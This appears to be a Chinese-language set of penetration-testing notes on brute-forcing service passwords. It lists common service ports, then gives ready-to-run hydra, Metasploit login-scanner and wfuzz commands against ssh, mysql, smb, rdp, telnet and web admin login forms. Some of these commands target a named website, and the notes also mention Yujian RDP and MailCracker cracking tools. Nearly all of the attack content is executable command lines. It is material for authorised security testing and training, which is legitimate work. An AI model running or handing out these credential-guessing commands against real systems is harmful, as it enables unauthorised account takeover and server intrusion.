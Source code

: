 # 常见服务端口
|服务| 端口| 
| --- | --- |
|web| 80 | 
|mysql |3306 |
|Microsoft SQL Server |1433|
|https | 443 |
|ftp |21 |
|ssh | 22| 
|dns| 53|
|tomcat| 8080|
|redis| 6379|
|rsync| 873|
|PostgreSQL |5432|
|cobaltstrike teamserver| 50050|
|smtp| 25|
|pop3 |110 |
|远程终端 rdp| 3389|
|smb |445 |
|rpc| 135 |
|imap| 143 |
|NetBIOS| 139|
|SMTPS| 465 |
|POP3S| 995 |
|mogodb| 27018 |
|memcached |11211 |
|telnet |23 |
|oracle |1521|

# [[hydra]]
##### 使用 hydra 穷举 ssh 服务
hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh -o ssh.txt -f
																			\ssh://192.168.1.104

#### 使用 hydra 穷举 mysql 服务
hydra ip mysql -l 用户名 -P 密码字典 -t 线程(默认 16) -vV
hydra ip mysql -l 用户名 -P 密码字典 -e ns -vV
hydra ip mysql -l 用户名 -P 密码字典 -e ns -vV -s 端口

#### 使用 hydra 穷举 smb 服务
hydra -l administrator -P 2019_top100.txt 192.168.52.6 smb -vV -f

#### 使用 hydra 穷举 http 服务
hydra -l admin -P 2019_top100.txt -vV -f \www.c1moon.com http-post-form
"/admin/index.php:user=^USER^&ps=^PASS^&action=login:login-error"

#### 使用 hydra 穷举 pop3 服务
hydra -L user.txt -P qweasd123 192.168.52.6 smtp-vV -f

#### 使用 hydra 穷举 rdp 服务
hydra ip rdp -l administrator -P pass.txt -V

#### 使用 hydra 穷举 http-proxy 服务
hydra -l admin -P pass.txt http-proxy://10.36.16.18

#### 使用 hydra 穷举 telnet 服务
hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V


xhydra
![[Pasted image 20231210204920.png]]
# metasploit
metasploit 是一个渗透测试集成套件 同样也有穷举模块
auxiliary/scanner/ftp/ftp_login
auxiliary/scanner/ssh/ssh_login
auxiliary/scanner/telnet/telnet_login
auxiliary/scanner/smb/smb_login
auxiliary/scanner/mssql/mssql_login
auxiliary/scanner/mysql/mysql_login
auxiliary/scanner/oracle/oracle_login
auxiliary/scanner/postgres/postgres_login
auxiliary/scanner/vnc/vnc_login
auxiliary/scanner/pcanywhere/pcanywhere_login
auxiliary/scanner/snmp/snmp_login
>[!TIP]
模块的用法
首先启动在终端下启动 msfconsole
use 使用 ssh_login 模块
use auxiliary/scanner/ssh/ssh_login
show options 查看模块的参数
RHOSTS 攻击的目标
PASS_FILE 密码字典
STOP_ON_SUCCESS 成功破解一个终止
THREADS 线程数
set 设置参数
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /home/kali/2019_top100.txt
PASS_FILE => /home/kali/2019_top100.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.52.13
RHOSTS => 192.168.52.13
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf5 auxiliary(scanner/ssh/ssh_login) > show options
设置好后用 run 或者 exploit 进行攻击



# 御剑RDP爆破工具使用
![[Pasted image 20231210205244.png]]
# wfuzz多线程穷举密码
>[!TIP]
wfuzz -c -z file,users.txt -z file,pass.txt --sc 200 http://www.site.com/log.asp?user=FUZZ&pass=FUZ2Z
wfuzz -c -z range,1-10 --hc=BBB http://www.site.com/FUZZ{something not there}
wfuzz --script=robots -z list,robots.txt http://www.webscantest.com/FUZZ
wfuzz -c -z file,2019_top100.txt --sc 302 -u
http://www.c1moon.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"
wfuzz -c -z file,2019_top100.txt --hc 404 --hh 1549 -u
http://www.c1moon.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"
wfuzz -c -w /home/kali/csdnpass.txt --hc 404 --hh 1549 -u
http://www.c1moon.com/admin/index.php?action=login -d "user=admin&pw=FUZZ"


企业独立搭建的邮服 用 MailCracker 进行破解

[CobaltStrike TeamServer 口令暴力破解]
